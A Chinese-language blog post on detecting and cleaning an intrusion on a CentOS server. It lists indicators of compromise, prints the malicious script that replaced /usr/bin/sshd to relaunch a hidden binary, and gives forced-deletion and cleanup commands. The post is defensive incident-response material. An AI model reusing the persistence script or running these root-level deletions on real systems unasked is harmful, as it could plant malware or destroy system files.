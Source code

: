 ```yaml
---
title: centos服务器被入侵
description: 出现-bash-4.2#，那么有可能你的机器已经被入侵了，附上我遇到的这种情况，看看对你有没有帮助。
date: 2021-09-20 10:33:57
---
```

## root用户登录出现-bash-4.2 #

在修复过.bashrc文件或者恢复过.bashrc后，仍然出现-bash-4.2#，那么有可能你的机器已经被入侵了，附上我遇到的这种情况，看看对你有没有帮助。
服务器入侵检查和处理

## 1、确认是否被入侵

出现以下现象或存在以下目录
root用户登录出现 `-bash-4.2#`

`netstat` 命令回显为空

检查系统用户列表是否有 gh0stx, sclipicibosu, mexalzsherifu 三个或其中任意一个

查看是否存在`/var/tmp/.ladyg0g0/`目录

查看是否存在`/var/tmp/.sl/`目录

检查`/root/.ssh/authorized_keys`是否存在异常

查看是否存在`/usr/.SQL-Unix/.SQL/.db` 或者 `/var/tmp/.SQL-Unix/.SQL/.db`

查看是否存在`/usr/tmp/.ladyg0g0/.pr1nc35` 或者 `/var/tmp/.ladyg0g0/.pr1nc35`

查看是否存在`/usr/bin/.pidsclip`

查看是否存在`/usr/bin/.locationesclipiciu`

检查`/usr/bin/sshd` 内容是否是如下代码段

```sell
#!/bin/bash
locatieasdf=$(cat /usr/bin/.locationesclipiciu)
if [ ! -d  ]; then
        mkdir
        rsync -r /usr/bin/.locationesclipiciu/ /
        sleep 1
        /.b4nd1d0 > /dev/null 2>&1 & disown
else
        if [ ! -f  /.dorel ]; then
                rsync -r /usr/bin/.locationesclipiciu/ /
                sleep 1
                /.b4nd1d0 > /dev/null 2>&1 & disown
fi
```

## 2、威胁处理

删除恶意脚本
强制删除 /var/tmp/.sl/ 目录

强制删除 /var/tmp/.ladyg0g0/ 目录

强制删除 /usr/bin/.locationesclipiciu

强制删除 /usr/bin/.pidsclip

强制删除 /root/.b4nd1d0

强制删除 /root/.dorel

强制删除 /usr/.SQL-Unix/ 目录

强制删除 /usr/tmp 目录

强制删除 /usr/bin/sshd

恢复.bashrc文件 cp /etc/skel/.bash* /root/

修改.bashrc文件

export PS1='[\u@\h \W]\$'

1. 删除 gh0stx, sclipicibosu, mexalzsherifu 中存在的用户

userdel –r sclipicibosu//删除不成功就使用chmod修改/etc/passwd和/etc/shadow权限，再使用vim删除该用户
1
reboot重启

passwd root //修改密码为强口令

## 3、恶意脚本分析

往系统服务中注册了一个私有服务 /lib/systemd/system/myservice.service
myservice私有服务中进行了一个文件同步操作 rsync -r /usr/bin/.locationesclipiciu/
同步了 /var/tmp/.sl/ 下的内容
重写 .bashrc，导致常用命令失效
后续可能进行的行为暂时不明
